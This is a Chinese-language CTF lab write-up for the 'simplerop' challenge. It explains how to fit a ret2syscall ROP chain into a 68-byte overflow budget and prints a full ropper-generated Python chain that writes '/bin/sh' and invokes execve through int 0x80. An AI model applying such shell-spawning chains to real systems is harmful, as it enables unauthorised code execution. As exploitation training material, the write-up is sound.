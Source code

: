 ### lab5-simplerop

本来看程序是静态链接的，想通过 ROPgadget/ropper 等工具生成的 ropchain 一波带走，但实际操作时发现 read 函数只允许读入 100 个字符，去除 buf 到 main 函数返回地址的偏移为 32，我们一共有 100 - 32 = 68 的长度来构造 ropchain，而 ropper/ROPgadget 等自动生成的 ropchain 都大于这个长度，这就需要我们精心设计 ropchain 了，这里偷个懒，优化一下 ropper 生成的 ropchain 来缩短长度

> ropper --file ./simplerop --chain "execve cmd=/bin/sh"
>
> ROPgadget --binary ./simplerop --ropchain

先看一下 ropper 生成的 ropchain

```python
#!/usr/bin/env python
# Generated by ropper ropchain generator #
from struct import pack

p = lambda x : pack('I', x)

IMAGE_BASE_0 = 0x08048000 # ./simplerop
rebase_0 = lambda x : p(x + IMAGE_BASE_0)

rop = ''

rop += rebase_0(0x00072e06) # 0x080bae06: pop eax; ret; 
rop += '//bi'
rop += rebase_0(0x0002682a) # 0x0806e82a: pop edx; ret; 
rop += rebase_0(0x000a3060)
rop += rebase_0(0x0005215d) # 0x0809a15d: mov dword ptr [edx], eax; ret; 
rop += rebase_0(0x00072e06) # 0x080bae06: pop eax; ret; 
rop += 'n/sh'
rop += rebase_0(0x0002682a) # 0x0806e82a: pop edx; ret; 
rop += rebase_0(0x000a3064)
rop += rebase_0(0x0005215d) # 0x0809a15d: mov dword ptr [edx], eax; ret; 
rop += rebase_0(0x00072e06) # 0x080bae06: pop eax; ret; 
rop += p(0x00000000)
rop += rebase_0(0x0002682a) # 0x0806e82a: pop edx; ret; 
rop += rebase_0(0x000a3068)
rop += rebase_0(0x0005215d) # 0x0809a15d: mov dword ptr [edx], eax; ret; 
rop += rebase_0(0x000001c9) # 0x080481c9: pop ebx; ret; 
rop += rebase_0(0x000a3060)
rop += rebase_0(0x0009e910) # 0x080e6910: pop ecx; push cs; or al, 0x41; ret; 
rop += rebase_0(0x000a3068)
rop += rebase_0(0x0002682a) # 0x0806e82a: pop edx; ret; 
rop += rebase_0(0x000a3068)
rop += rebase_0(0x00072e06) # 0x080bae06: pop eax; ret; 
rop += p(0x0000000b)
rop += rebase_0(0x00026ef0) # 0x0806eef0: int 0x80; ret; 
print rop
[INFO] rop chain generated!
```

简单介绍一下原理，通过一系列 pop|ret 等gadget，使得 eax = 0xb（execve 32 位下的系统调用号），ebx -> /bin/sh， ecx = edx = 0，然后通过 `int 0x80` 实现系统调用，执行 execve("/bin/sh", 0, 0)，实际上构造了一个 ret2syscall 的rop chain, hackme.inndy 上也有一道类似的题目[**ROP2**](http://www.cnblogs.com/WangAoBo/p/7706719.html#_label3)
> ret2syscall 的更多细节可以参考 [ctf-wiki](https://ctf-wiki.github.io/ctf-wiki/pwn/stackoverflow/basic_rop/#ret2syscall)
